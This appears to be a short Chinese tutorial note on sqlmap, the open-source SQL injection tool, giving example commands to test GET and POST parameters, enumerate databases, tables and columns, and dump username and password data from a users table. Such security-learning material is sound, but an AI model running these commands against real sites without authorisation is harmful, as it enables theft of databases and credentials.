 ### 介绍

开源的自动化工具，主要用于检测和利用SQL注入漏洞。

sqlmap可以自动化地发现网站的SQL注入点，并提取数据库中的数据，如表名，列名，记录等，甚至在某些情况下可以获取系统权限





### 基本功能

- 检测SQL注入漏洞

- 枚举数据库信息（数据库名，表名，列名，数据）

- 执行系统命令（在特定条件下）





### 基本用法



#### 测试GET参数中是否存在sql注入

```
sqlmap -u <url>?id=1 --batch 
```

-u指定目标url

id为参数，1为值

--batch表示批量模式，启用这个选项后，sqlmap会在运行过程中自动选择默认选项，而不会停下来等待用户输入确认。




#### 测试POST参数是否存在sql注入

```
sqlmap -u <url> --data "id=1" --batch 
```

--data 指定post参数



#### 枚举数据库

```
sqlmap -u <url> --data "id=1" --dbs --batch 
```

--dbs 列出所有数据库名





#### 指定数据库名枚举表（testdb）

```
sqlmap.py -u <url>?id=1 -D testdb --tables
```

-D 指定数据库名

--tables 列出表名





#### 提取字段名（testdb数据库下的users表）

```
sqlmap -u <url>?id=1 -D testdb -T users --columns
```

-T 指定表名
--columns 列出字段名





#### 提取（testdb数据库下的users表中的username和password的数据）

```
 sqlmap -u <url>?id=1 -D testdb -T users -C "username,password" --dump
```

-C 指定列名
--dump 导出数据



#### 读取文件检测

将抓包内容保存到文件，利用sqlmap读取文件内容自动检测

```
sqlmap -l 1.txt --batch
```

![image-20250309162507850](./assets/image-20250309162507850.png)



(可以在要检测的注入点加 * 号)